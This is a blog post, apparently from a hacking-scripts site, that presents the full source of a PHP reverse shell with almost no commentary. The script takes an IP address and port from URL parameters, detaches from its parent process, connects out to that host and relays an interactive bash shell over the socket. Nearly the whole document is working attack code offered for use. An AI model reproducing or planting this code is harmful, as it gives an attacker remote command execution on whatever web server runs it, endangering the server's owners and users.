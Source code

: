 ```yaml
---
id: 86
title: Random Shell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=86
permalink: /random-shell-script/
categories:
  - PHP
tags:
  - PHP
---
```

A random shell script.. I don&#8217;t know what this one does, or find any information on it. I don&#8217;t even know what it&#8217;s called! Anyway, it is very nicely written and commented.


### Random Shell Script Source Code

{% highlight php linenos %}<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = $_GET["ip"]; 
$port = $_GET["port"]; 
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = '/bin/bash -p -i';
$daemon = 0;
$debug = 0;
 
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
 
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
 
    if ($pid) {
        exit(0);  // Parent exits
    }
 
    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
 
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
 
// Change to a safe directory
chdir("/");
 
// Remove any umask we inherited
umask(0);
 
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}
 
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
 
$process = proc_open($shell, $descriptorspec, $pipes);
 
if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}
 
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
 
printit("Successfully opened reverse shell to $ip:$port");
 
while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }
 
    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }
 
    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
 
    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }
 
    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
 
    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}
 
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
 
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
?>
{% endhighlight %}